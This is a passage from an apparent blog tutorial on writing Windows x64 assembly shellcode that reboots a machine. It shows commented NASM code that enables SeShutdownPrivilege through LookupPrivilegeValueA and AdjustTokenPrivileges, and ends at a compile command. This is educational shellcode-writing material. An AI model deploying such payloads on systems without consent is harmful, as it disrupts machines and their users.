 );</code></pre><figcaption>LookupPrivilegeValueA function prototype</figcaption></figure><p>The assembly code looks like this:</p><pre><code class="language-asm">_getPrivilegeLuid:
    ; lpSystemName -&gt; NULL
    xor rcx, rcx
    
    ; lpName -&gt; pointer to string "SeShutdownPrivilege"
    lea rdx, [shutdown_privilege_name]
    
    ; lpLuid -&gt; pointer to output LUID struct
    mov r8, token_privileges_struct + 0x4
  
    sub rsp, 0x20
    call LookupPrivilegeValueA
    add rsp, 0x20</code></pre><p>As you can see, I allocated 32 bytes of space on the stack before calling the function.</p><h3 id="enabling-the-privilege">Enabling the privilege</h3><p>Once we have the LUID of the privilege we want to enable, we can call the function <code>AdjustTokenPrivileges</code> to set it. The latter accepts six parameters:</p><figure class="kg-card kg-code-card"><pre><code class="language-cpp">BOOL AdjustTokenPrivileges(
  [in]            HANDLE            TokenHandle,
  [in]            BOOL              DisableAllPrivileges,
  [in, optional]  PTOKEN_PRIVILEGES NewState,
  [in]            DWORD             BufferLength,
  [out, optional] PTOKEN_PRIVILEGES PreviousState,
  [out, optional] PDWORD            ReturnLength
);</code></pre><figcaption>AdjustTokenPrivileges function prototype</figcaption></figure><p>You can refer to the following link if you're curious about the purpose of each parameter:</p><figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-adjusttokenprivileges"><div class="kg-bookmark-content"><div class="kg-bookmark-title">AdjustTokenPrivileges function (securitybaseapi.h) - Win32 apps</div><div class="kg-bookmark-description">Enables or disables privileges in the specified access token. Enabling or disabling privileges in an access token requires TOKEN_ADJUST_PRIVILEGES access.</div><div class="kg-bookmark-metadata"><img class="kg-bookmark-icon" src="https://learn.microsoft.com/favicon.ico" alt=""><span class="kg-bookmark-author">Microsoft Learn</span><span class="kg-bookmark-publisher">alvinashcraft</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://learn.microsoft.com/en-us/media/logos/logo-ms-social.png" alt=""></div></a></figure><p>Combining this information, I came up with the assembly code below:</p><pre><code class="language-asm">_enableShutdownPrivilege:
    ; set TOKEN_PRIVILEGES.PrivilegeCount
    mov DWORD [token_privileges_struct], 0x1
    
    ; set TOKEN_PRIVILEGES.LUID_AND_ATTRIBUTES.Attributes
    mov DWORD [token_privileges_struct + 0xc], 0x2

    ; TokenHandle
    mov rcx, QWORD [process_token_handle]

    ; DisableAllPrivileges -&gt; false
    xor rdx, rdx
    
    ; PTOKEN_PRIVILEGES
    mov r8, token_privileges_struct
    
    ; BufferLength -&gt; 0
    mov r9, rdx
    
    ; PreviousState and ReturnLength -&gt; 0
    push rdx
    push rdx

    sub rsp, 0x20
    call AdjustTokenPrivileges
    add rsp, 0x20</code></pre><p>The first <code>mov</code> operation sets the value of the <code>PrivilegeCount</code> field of the <code>TOKEN_PRIVILEGES</code> structure. In this case, we're only enabling one privilege, hence the counter should be set to 1.</p><p>The second <code>mov</code> operation sets the field <code>Attributes</code> of the <code>LUID_AND_ATTRIBUTES</code> structure to the value <code>0x2</code> i.e., <code>SE_PRIVILEGE_ENABLED</code>.</p><h2 id="final-code">Final code</h2><p>Putting the pieces together, you should have a fully-functional reboot shellcode. Follows the commands for the compilation:</p><pre><code class="language-ps1">nasm -f win64 -o test.o test.nasm
